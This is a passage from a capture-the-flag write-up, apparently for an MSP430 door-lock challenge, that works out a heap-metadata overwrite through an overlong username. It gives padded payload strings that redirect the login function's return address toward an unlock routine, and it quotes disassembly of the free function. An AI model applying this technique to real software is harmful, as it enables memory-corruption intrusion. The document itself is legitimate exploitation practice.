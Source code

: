 ```



So it appears we can get an arbitrary one-word write with a username
like:

```{16 bytes of padding}{value to write}{address to write}```

and a password of `00`.

Inserting a breakpoint at the `ret` instruction of the `login`
function, we see an `sp` value of 0x439a, so if we overwrite this
address with the address of the `unlock_door` function, i.e. 0x4564,
perhaps we can win.

Thus:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa64459a43
00
```

This works, except we notice that, as observed before, this also
overwrites instructions near to 0x4564--in this case, instructions in
the middle of the `unlock_door` function.

So if we instead write the address of a function that calls the
`unlock_door` function (in particular, one where we will not care
about destroying nearby instructions), there might be success that
way.  One such address is 0x4690.  So:

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa90469a43
00
```

However, for whatever reason, this (as well as using several other
values for 0x4690) places in the address of the return pointer the
value 0x241e instead of the expected 0x4690.  What made 0x4564 special
such that this didn't happen is unclear, but for example, it seems to
happen for any value other than those 0x455e to 0x4588.  This is
likely a result of the details of the malloc implementation that we
are trying still to treat as a black box.

Since it is the free function that we are interested in, let us look
into its behaviour a little.  It is somewhat short, so this won't be
too painful:

```
4508:  0b12           push	r11
450a:  3f50 faff      add	#0xfffa, r15
450e:  1d4f 0400      mov	0x4(r15), r13
4512:  3df0 feff      and	#0xfffe, r13
4516:  8f4d 0400      mov	r13, 0x4(r15)
451a:  2e4f           mov	@r15, r14
451c:  1c4e 0400      mov	0x4(r14), r12
4520:  1cb3           bit	#0x1, r12
4522:  0d20           jnz	#0x453e <free+0x36>
4524:  3c50 0600      add	#0x6, r12
4528:  0c5d           add	r13, r12
452a:  8e4c 0400      mov	r12, 0x4(r14)
452e:  9e4f 0200 0200 mov	0x2(r15), 0x2(r14)
4534:  1d4f 0200      mov	0x2(r15), r13
4538:  8d4e 0000      mov	r14, 0x0(r13)